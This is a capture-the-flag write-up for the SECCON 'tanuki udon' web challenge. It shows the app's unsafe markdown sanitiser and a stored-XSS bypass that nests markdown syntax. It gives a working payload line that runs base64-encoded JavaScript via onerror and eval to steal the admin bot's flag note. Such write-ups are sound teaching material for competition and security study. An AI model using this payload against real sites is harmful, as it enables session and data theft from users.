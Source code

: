 ## tanuki udon - @disna

* web
* 41 solves
* 149 points

> Inspired by [Udon (TSG CTF 2021)](https://github.com/tsg-ut/tsgctf2021/tree/main/web/udon)
>
> Challenge: http://tanuki-udon.seccon.games:3000
>
> Admin bot: http://tanuki-udon.seccon.games:1337
>
> [Tanuki_Udon.tar.gz](tanuki_udon.tar.gz) c176e73baabeac73110e9edef582624e773713e9
>
> author: Satoooon

(Forewarning: the file we downloaded does not have the same checksum as what is written in the challenge description)

`Tanuki Udon` is a simple note app, where the goal is to steal a note containing the flag that an admin bot creates. At a glance we see that these notes are reflected raw to the user, bar a `markdown(content)` pass, and so offers an inviting XSS sink:

```ejs
    <section>
      <%- note.content %>
    </section>
```
_note.ejs_

```js
app.get('/note/:noteId', (req, res) => {
  const { noteId } = req.params;
  const note = db.getNote(noteId);
  if (!note) return res.status(400).send('Note not found');
  res.render('note', { note });
});

app.post('/note', (req, res) => {
  const { title, content } = req.body;
  req.user.addNote(db.createNote({ title, content: markdown(content) }));
  res.redirect('/');
});
```
_index.js_

```js
const escapeHtml = (content) => {
  return content
    .replaceAll('&', '&amp;')
    .replaceAll(`"`, '&quot;')
    .replaceAll(`'`, '&#39;')
    .replaceAll('<', '&lt;')
    .replaceAll('>', '&gt;');
}

const markdown = (content) => {
  const escaped = escapeHtml(content);
  return escaped
    .replace(/!\[([^"]*?)\]\(([^"]*?)\)/g, `<img alt="$1" src="$2"></img>`)
    .replace(/\[(.*?)\]\(([^"]*?)\)/g, `<a href="$2">$1</a>`)
    .replace(/\*\*(.*?)\*\*/g, `<strong>$1</strong>`)
    .replace(/  $/mg, `<br>`);
}
```
_markdown.js_

Quotes in user input are sanitized to prevent context escape (e.g., escape `src` attribute value context to define a new attribute), but this is bypasseable by nesting markdown elements within each other; `![[AAA](BBB)](CCC)` transforms into `<img alt="`<span style="opacity:0.2;">`<a href=`</span>`"CCC">`<span style="opacity:0.2;">`AAA" src="BBB"></img></a>`</span>, where `CCC` is parsed as an attribute name, and which we fully control.

A common XSS trick is to set both `src=x` and `onload="<javascript payload>"`, but we do not get quotes, and we cannot use closing round brackets i.e., `)` because it messes with `.replace`. So, we make sure our `onerror` payload does not contain spaces, and we use [tagged template literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates) to call functions instead:

```python
base64_payload = base64.b64encode(script.encode()).decode()
payload = f"![![AAA](BBB)](src=x onerror=a=atob`{base64_payload}`;eval.call`a${{a}}`//)"
```

Then with unrestricted XSS on the challenge domain, it's just a matter of grabbing the list of notes from `/`, navigating to admin's flag note, and exfiltrating it to ourselves. [Solve script](script.py) here.

`SECCON{Firefox Link = Kitsune Udon <-> Chrome Speculation-Rules = Tanuki Udon}`

(fwiw, this is an unintended solution as the challenge had a lot more bells and whistles to it than just the parts shown here, but flag is flag :P)